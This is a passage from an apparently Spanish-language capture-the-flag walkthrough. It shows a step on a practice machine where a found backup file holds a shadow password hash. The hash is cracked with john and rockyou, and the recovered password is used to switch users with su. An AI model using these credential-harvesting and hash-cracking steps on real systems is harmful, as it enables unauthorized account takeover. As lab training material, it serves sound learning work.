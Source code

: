 ~~~ bash
www-data@5c050710a415:/home/maci$ find / -user "darksblack" -readable 2>/dev/null              
/var/backups/darksblack
/var/backups/darksblack/.darksblack.txt
~~~

- `-user`: Usuario propietario
- `-readable`: Capacidad de lectura

Si inspeccionamos el archivo vemos lo siguiente

~~~ bash
www-data@5c050710a415:/home/maci$ cat /var/backups/darksblack/.darksblack.txt

darksblack:$y$j9T$LHiaZ3.V.uZMQWNKIHQaK.$yucUM837WonVbazf5eQWEmFnG5u0ZY5VTxH37NhaCE5:20028:0:99999:7:::
~~~


## Shadow Hash Cracking

Parece ser el `hash` del archivo `/etc/shadow` para el usuario `darksblack`, intentaremos crackear este hash usando la herramienta `john`. Copiaremos el hash y lo guardaremos en un archivo `hash.txt` (por ejemplo)

~~~ bash
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
salvador1        (darksblack)     
1g 0:00:02:11 DONE (2025-03-29 11:59) 0.007620g/s 119.2p/s 119.2c/s 119.2C/s elizabeth3..nissan350z
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~

- `--format=crypt`: Detectar el algoritmo usado de forma automática para Unix
- `--wordlist`: Especificamos el diccionario a usar para crackear el hash


## Shell as `darksblack`

Hemos encontrado la contraseña `salvador1` para el usuario `darksblack`, por lo que ya podemos migrar a este usuario

~~~ bash
www-data@5c050710a415:/home/maci$ su darksblack
Password:
www-darksblack@5c050710a415:/home/maci$
~~~
